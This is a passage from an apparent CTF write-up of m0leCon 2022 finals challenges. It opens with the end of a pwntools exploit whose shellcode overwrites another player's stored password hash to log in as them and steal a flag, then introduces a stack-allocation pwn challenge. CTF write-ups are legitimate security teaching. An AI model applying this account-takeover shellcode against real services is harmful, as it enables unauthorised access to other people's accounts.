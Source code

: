 ```py
            ## which will now have fd = 2 on most systems
            + shellcraft.close(2)
            + shellcraft.open("./passwords", constants.O_WRONLY)
            ## Reading out the sha256 of the password is optional,
            ## but not doing so would make it impossible
            ## to restore it later. If not restored the service
            ## of every other players would appear as down, as
            ## the bot is not able to login anymore
            + shellcraft.lseek(2, to_pwn * (256 // 8), constants.SEEK_SET)
            + shellcraft.read(2, "r15", 256 // 8)
            + shellcraft.write(1, "r15", 256 // 8)
            ## Finally, we overwrite the password sha256 with our password sha256!
            + shellcraft.lseek(2, to_pwn * (256 // 8), constants.SEEK_SET)
            + shellcraft.write(
                2,
                sha256(pwned_pwd).digest(),
                256 // 8,
            )
        )
    )

    run_shellcode(shellcode)
    logout()
    login(to_pwn, pwned_pwd)
    ## steal flag here :)
    ## after that, execute one more time the above shellcode,
    ## but now we restore the original sha256 password

    io.interactive()
```

#### Summary

Very nice challenge, learnt the hard way around that `wait`ing a child to exit is more important than it may look at first sight, and that `chroot`s are really strange sometimes. Do not trust 'em!

## Speedruns

The CTF featured a number of four speedrun challenges, which were Jeopardy-style challenges released regularly. Unfortunately, we only solved the second one, but we got really close to solve the first one too!

Unfortunately, as the first one was related to making a scanner (which was on-site) scan an image, we cannot really try to solve it afterward the CTF ended 😔.

### VFS - Speedrun 2

#### Exploration

This pwn challenge was pretty interesting, as it was illustrating how it is (kinda) possible to use the stack to allocate memory dynamically (spoiler alert: don't **_ever_** do it for real). The binary and other files that came with it are available [here](/posts/downloads/m0lecon_finals_2022_vfs.zip).
